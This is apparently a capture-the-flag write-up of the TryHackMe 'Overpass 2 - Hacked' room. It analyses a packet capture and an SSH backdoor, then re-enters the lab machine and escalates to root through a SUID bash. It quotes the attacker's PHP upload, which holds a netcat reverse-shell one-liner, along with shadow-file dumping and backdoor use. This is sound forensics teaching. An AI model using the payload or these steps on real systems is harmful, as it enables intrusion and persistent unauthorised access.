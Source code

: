 ```yaml
---
title: "Overpass 2 - Hacked"
date: 2023-07-31 20:50:00 +0300
image: /assets/img/Posts/overpass2.png
categories: [Tryhackme, Easy]
tags: [Network forensics, wireshark, SUID, backdoor, ssh, pcap, packet capture]
---
```


| Room       | [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)    |
| ---------- | -------------------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)                       |
| Difficulty | Easy                                                                 |

# Let's get started
This room focuses on analyzing the packet capture file that was saved by the soc team after noticing suspicious traffic in their network. It is aimed to help the learner grow their skills in network forensics, one of the major categories of the digital forensics domain.

Forensics skills will be vital to help uncover the attack vector the attacker used, at which endpoint, the exploit used, status of the attack and the impact the attack had to the organization.

## Forensics - Analyse the PCAP
We are presented with the PCAP file that we believe captured the suspicious traffic as highlighted. It is our duty to analyse it to understand the attack. We are going to use wireshark to open and analyse the traffic. 
But first we need to check the integrity of the file. We are being provided with the MD5sum of the file, so we are going to reproduce the MD5Sum and compare to see if it is original, not modified.

>NOTE: It is part of forensics to always confirm the integrity of the files or data shared.
{: .prompt-info }
It is evident that the hash we got after generating the MD5Sum of the file looks similar to the hash provided in the TryHackMe platform.

![image](/assets/img/Posts/overpass2/md5sum.png)

We proceed to opening the file in wireshark to begin our analysis.

![image](/assets/img/Posts/overpass2/wireshark-1.png)

From the look of things from the above image, we see there are several TCP and HTTP requests. Checking through clearly we see a get request made from host ip 192.168.170.145 on the /development directory on the server that is probably running on the host 192.128.170.159.

![image](/assets/img/Posts/overpass2/wireshark.png)

From the IPs of the Hosts captured we can conclude that the victim and the attacker were on the same network. 
Going forward we saw here there is also a POST request made on the directory /development/upload.php, we proceed to checking that particular packet. We do so by right-clicking then  follow->HTTP stream.

![image](/assets/img/Posts/overpass2/analysis-2.png)

Checking on the nature of the request, we see that the attacker uploaded uploaded a file payload.php  that had the contents:
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
From the file extension and the contents of the file, we can tell that the attacker did upload a `php` code the used `exec()` which can be used to execute the system commands. In this case the command  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f` spawns a reverse shell and forwards to the attacker IP provided in the payload `192.168.170.145` to the listening port that the attacker provided `4242`.

After making this `POST` request, the attacker proceeded to do a `GET` request which was meant to execute the `payload.php` file uploaded with an intention of getting a reverse connection from the victim machine.

![image](/assets/img/Posts/overpass2/analysis-3.png)

After GETting the `payload.php` file, we see some trailing `TCP` connection to the port `4242` which had earlier been specified on the payload, which signifies the reverse connection was successful.
We can confirm by following one of `TCP` packets.

![image](/assets/img/Posts/overpass2/analysis-4.png)

The attacker got a shell onto the server as the www-data user, executed the python command `python3 -c ‘import pty;pty.spawn(“/bin/bash”)’` to stabilize the shell.
Then switched the user using the command su james to change the user to james and provided the password which we can see is `whenevernoteartinstant`.
From here we see the attacker proceeded to run the command `sudo -l` to list the commands or binaries that the user james can run with sudo. We find that the attacker can run `ALL` the commands in the server using the user james (BAD PRACTICE).
`(ALL : ALL) ALL`
After seeing that the attacker directly went to dump the user password hashes from the /etc/shadow file.

![image](/assets/img/Posts/overpass2/analysis-pass.png)

## Research - Analyse the code 
Then goes on to cloning the SSH backdoor onto the server obviously to maintain their stay on the server, technically we say persistence:).

![image](/assets/img/Posts/overpass2/analysis-clone.png)

We can try to access the GitHub repository the attacker cloned (SSH backdoor) from the url https://github.com/NinjaJc01/ssh-backdoor. The payload is written in `go` language.

![image](/assets/img/Posts/overpass2/analysis-github-repo.png)

Checking through the main function of the `main.go` file, we find a clue of what the code is doing. The backdoor tends to open the port `2222` for ssh connection to the attackers machine. then we see a default hash at the top and the different arguments that the attacker could use to deploy the backdoor.

![image](/assets/img/Posts/overpass2/analysis-codereview.png)

Going down the code we find there is a hardcoded string of what looks like a salt on the hash of the hash the attacker provides.

![image](/assets/img/Posts/overpass2/analysis-salt.png)

Going back to the packet capture analysis, we find that the attacker ran the backdoor with the arguments -a which as we have seen helps him enter his own password hash.
attacker hash from the pcap file: 
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
![image](/assets/img/Posts/overpass2/analysis-salt-attacker.png)\

With the hash and the salt we can proceed to crack them using `hashcat` to see the password the attacker set in his backdoor.

![image](/assets/img/Posts/overpass2/pass.png)

## Attack - Get back in! 
Now that we have the SSH credentials of the attacker backdoor, we can try to log into the server.
`SSH port - 2222`
Trying to login we get this error.

![image](/assets/img/Posts/overpass2/ssh-issue.png)

On a quick google search we get a solution to the problem. we add `-o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa` to our ssh command and we get a shell.

![image](/assets/img/Posts/overpass2/ssh-issue-solver.png)

![image](/assets/img/Posts/overpass2/shell.png)

we access the user flag in `james’s home` directory.

![image](/assets/img/Posts/overpass2/userflag.png)

Re-running the `sudo -l` command, on the server since we saw before on the captured traffic that james could run `ALL` the commands with sudo. It seems it is not the case anymore.
Running a `ls -la` command on james’s home directory, we find  a file `.suid_bash` with a `SUID bit`, running it with `-p` gives us the root shell.

![image](/assets/img/Posts/overpass2/suid-blog.png)

![image](/assets/img/Posts/overpass2/rootflag.png)

Enjoy :)